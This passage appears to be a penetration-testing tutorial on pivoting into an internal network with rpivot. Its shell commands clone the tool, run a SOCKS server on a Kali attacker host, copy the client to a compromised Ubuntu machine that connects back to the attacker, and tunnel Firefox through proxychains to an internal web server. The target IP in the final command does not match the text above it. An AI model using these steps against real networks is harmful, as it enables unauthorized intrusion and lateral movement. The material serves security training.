 ```shell-session
git clone https://github.com/klsecservices/rpivot.git
```

**2.** Run server.py  with python2.7 from the kali attacker machine:

```shell-session
cd rpivot

python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```

**3.** Transfer rpivot folder to the target, the attacked machine 1: ubuntu.

```shell-session
scp -r rpivot ubuntu@10.10.50.2:/home/ubuntu/
```

**4.** Run client.py from the pivot target (attacked machine 1: ubuntu):

```shell-session
~/rpivot$ python2.7 client.py --server-ip 10.10.10.2 --server-port 9999

# We will see a connection
New connection from host 10.10.50.2, source port 35226

```

**5.** Configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attacker machine, which was initially started by the Python server.

```
sudo nano /etc/proxychains4.conf
# Adding `socks5 127.0.0.1 9050` in the last line
```


**6.** Finally, we should be able to access the webserver on our server-side, which is hosted on the internal network of 172.16.5.0/23 at 172.16.5.135:80 using proxychains and Firefox.


```shell-session
proxychains firefox-esr 172.10.20.135:80
```


### Pivoting to access an external server (attack host) on the cloud

here could be scenarios when we cannot directly pivot to an external server (attack host) on the cloud. Some organizations have [HTTP-proxy with NTLM authentication](https://docs.microsoft.com/en-us/openspecs/office_protocols/ms-grvhenc/b9e676e7-e787-4020-9840-7cfe7c76044a) configured with the Domain Controller. In such cases, we can provide an additional NTLM authentication option to rpivot to authenticate via the NTLM proxy by providing a username and password. In these cases, we could use rpivot's client.py in the following way.

Client NTLM authentication example

![NTLM authentication](img/ntlm.png)
